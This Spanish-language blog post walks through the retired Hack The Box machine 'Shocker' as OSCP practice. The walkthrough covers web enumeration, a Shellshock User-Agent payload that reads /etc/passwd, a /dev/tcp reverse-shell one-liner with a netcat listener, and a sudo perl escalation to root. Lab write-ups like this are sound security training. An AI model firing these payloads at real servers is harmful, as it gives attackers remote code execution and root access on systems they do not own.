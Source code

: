 ```yaml
---
layout: post
title:  "OSCP Path ~ Shocker de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada SHOCKER siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, ShellShock, RCE, CGI-BIN, Maquinas Retiradas, Writeup, Hacking
---
```


# Shocker ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn 10.10.10.56 -oG allports        "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Procedemos a Fuzzear para encontrar las diferentes rutas a nivel web que pueda tener la maquina victima. Usamos la herramienta `DIRB`
```bash
# dirb http://10.10.10.56                                   

-----------------

START_TIME: Sat Jun 12 12:19:55 2021
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/ ----
"+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)  "                                                                                                                            
"+ http://10.10.10.56/index.html (CODE:200|SIZE:137) "                                                                                                                           
"+ http://10.10.10.56/server-status (CODE:403|SIZE:299)   "                                                                                                                      
                                                                                                                                                                               
-----------------
END_TIME: Sat Jun 12 12:25:47 2021
DOWNLOADED: 4612 - FOUND: 3

```
Vemos que nos encuentra una ruta con nombre `/cgi-bin/`
Usamos la herramienta `dirsearch` para hacer un segundo Fuzzing con diferentes extensiones.

```bash
# dirsearch -u http://10.10.10.56/cgi-bin -e sh,txt,php,html -f -t 200                                                                                              130 ⨯ 1 ⚙

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: sh, txt, php, html | HTTP method: GET | Threads: 200 | Wordlist size: 42323

Output File: /root/.dirsearch/reports/10.10.10.56/cgi-bin_21-06-12_12-35-06.txt

Error Log: /root/.dirsearch/logs/errors-21-06-12_12-35-06.log

Target: http://10.10.10.56/cgi-bin/
[12:35:06] Starting:
..
[12:35:43] 200 -  118B  - "/cgi-bin/user.sh"
```
Encontramos un recurso en bash, vamos a probar a apuntarle desde nuestra terminal con una peticion `CURL`
```Bash
# curl -X GET "http://10.10.10.56/cgi-bin/user.sh"                                                                                                                       18 ⨯
Content-Type: text/plain

Just an uptime test script

 07:14:39 up  2:11,  0 users,  load average: 0.00, 0.00, 0.00
```
Nos especifica que el script esta usando el comando uptime para ir actualizando el tiempo de la maquina mientras este activa (Es Dinamico)
Aqui nosotros si hemos escuchado hablar sobre la Vulnerabilidad llamada `ShellShock`, podemos intuir que los tiros pueden ir por ahi..
Aqui dejo el articulo informativo sobre la vulnerabilidad `"https://blog.cloudflare.com/inside-shellshock/"` 

# Shellshock como Vulnerabilidad (RCE)

Procedemos a explotar la vulnerabilidad encontrada en la maquina `SHOCKER`
Ejecutamos el comando `/bin/bash -c 'cat /etc/passwd'` para ver si obtenemos Ejecucion Remota de Comandos
```bash
# curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```
Una vez verificado la vulnerabilidad!!
Procedemos a intentar enviarnos una Reverse-shell a nuestro equipo desde la maquina victima explotando la vulnerabilidad ShellShock
```bash
# curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.15.13/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh

```
Nos ponemos a la escucha con una session de `netcat` y ejecutamos el comando por arriba para ver si recibimos la conexion.
```bash
# nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.15.13] from (UNKNOWN) [10.10.10.56] 43304
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -vlnp 443

# Hacemos un tratamiento de la tty para que sea interactiva
┌──(root💀kali)-[/home]
└─# stty raw -echo; fg                                                                                                                                                148 ⨯ 1 ⚙
[1]  + continued  nc -vlnp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
shelly@Shocker:/usr/lib/cgi-bin$ export TERM=xterm
shelly@Shocker:/usr/lib/cgi-bin$ export SHELL=bash
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ 
```
Vale ahora faltaria setear las rows y columns segun nuestra tty para que tenga la mismas proporciones.

Una vez dentro si nos dirigimos al directorio /home/shelly/user.txt podriamos ver la flag:
```bash
shelly@Shocker:/$ cd home
shelly@Shocker:/home$ ls
shelly
shelly@Shocker:/home$ cat shelly/*
fd3834f5565767551d05x0550xxxxxxx
```

# Escalada de Privilegios hasta el user Root

Procedemos a enumerar el sistema con los siguientes comandos:
```bash
shelly@Shocker:/var$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: "/usr/bin/perl"
```
Apartir de aqui hacemos una busqueda en la pagina de GTFOBins y encontramos que con el commando perl podemos spawnearnos una shell, y como podemos usar el comando como SUID ya estaria
- GTFOBins - https://gtfobins.github.io/gtfobins/perl/
```bash
shelly@Shocker:/var$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
# whoami
root
# cat roo*
2754c7de9b01e33009bb75xxxxxxxxx
``` 
Ya tendriamos la flag de `root.txt`. Maquina Rooteada!!


